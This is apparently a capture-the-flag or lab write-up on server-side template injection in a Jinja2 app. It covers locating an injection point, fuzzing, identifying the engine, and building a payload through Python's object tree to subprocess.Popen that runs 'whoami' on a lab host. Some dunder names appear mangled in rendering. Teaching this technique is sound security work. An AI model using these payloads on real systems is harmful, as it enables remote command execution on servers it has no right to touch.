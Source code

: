 # SSTI

<figure><img src="../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

## Detection

### Finding an injection point

There are a few places we can look within an application, such as the URL or an input box (make sure to check for hidden inputs).

In this example, there is a page that stores information about a user: `http://10.10.96.9:5000/profile/<user>`, which takes in user input.

<figure><img src="../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

### Fuzzing

Fuzzing Fuzzing is a technique to determine whether the server is vulnerable by sending multiple characters in hopes to interfere with the backend system.

Luckily for us, most template engines will use a similar character set for their "special functions" which makes it relatively quick to detect if it's vulnerable to SSTI.

For example, the following characters are known to be used in quite a few template engines:

&#x20;`${{<%[%'"}}%`.

The fuzzing process looks as follows:

<figure><img src="../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

Continue with this process until you either get an error, or some characters start disappearing from the output.

## Identification

Now that we have detected what characters caused the application to error, it is time to identify what template engine is being used.

In the best case scenario, the error message will include the template engine, which marks this step complete!

However, if this is not the case, we can use a decision tree to help us identify the template engine:

<figure><img src="../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

## Syntax

After having identified the template engine, we now need to learn its syntax.

{% hint style="success" %}
Where better to learn than the official documentation?
{% endhint %}

## Exploitation

At this point, we know:

```
- The application is vulnerable to SSTI
- The injection point
- The template engine
- The template engine syntax
```

### Planning

Let's first plan how we would like to exploit this vulnerability.

Since Jinja2 is a Python based template engine, we will look at ways to run shell commands in Python. A quick Google search brings up a blog that details different ways to run shell commands. I will highlight a few of them below:

```python
# Method 1
import os
os.system("whoami")

# Method 2
import os
os.popen("whoami").read()

# Method 3
import subprocess
subprocess.Popen("whoami", shell=True, stdout=-1).communicate()
```

### Crafting a proof of concept (Generic)

Combining all of this knowledge, we are able to build a proof of concept (POC).

```python
{{ os.system("whoami") }}.
```

{% hint style="warning" %}
Note: Jinja2 is essentially a sub language of Python that doesn't integrate the import statement, which is why the above does not work.
{% endhint %}

### Crafting a proof of concept (Jinja2)

Python allows us to call the current class instance with `.`**`class`**, we can call this on an empty string:

```
http://10.10.96.9:5000/profile/{{ ''.class }}
```

Classes in Python have an attribute called `.`**`mro`** that allows us to climb up the inherited object tree:

```
http://10.10.96.9:5000/profile/{{ ''.class.mro }}
```

Since we want the root object, we can access the second property (first index):

```
http://10.10.96.9:5000/profile/{{ ''.class.mro[1] }}
```

Objects in Python have a method called `.`**`subclassess`** that allows us to climb down the object tree:

```
http://10.10.96.9:5000/profile/{{ ''.class.mro[1].subclasses() }}
```

Now we need to find an object that allows us to run shell commands. Doing a Ctrl-F for the modules in the code above yields us a match:

<figure><img src="../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

As this whole output is just a Python list, we can access this by using its index. You can find this by either trial and error, or by counting its position in the list.

In this example, the position in the list is 400 (index 401):

```
http://10.10.96.9:5000/profile/{{ ''.class.mro[1].subclasses()[401] }}
```

The above payload essentially calls the subprocess.Popen method, now all we have to do is invoke it (use the code above for the syntax)

{% code overflow="wrap" %}
```
 http://10.10.96.9:5000/profile/{{ ''.class.mro[1].subclasses()[401]("whoami", shell=True, stdout=-1).communicate() }}
```
{% endcode %}
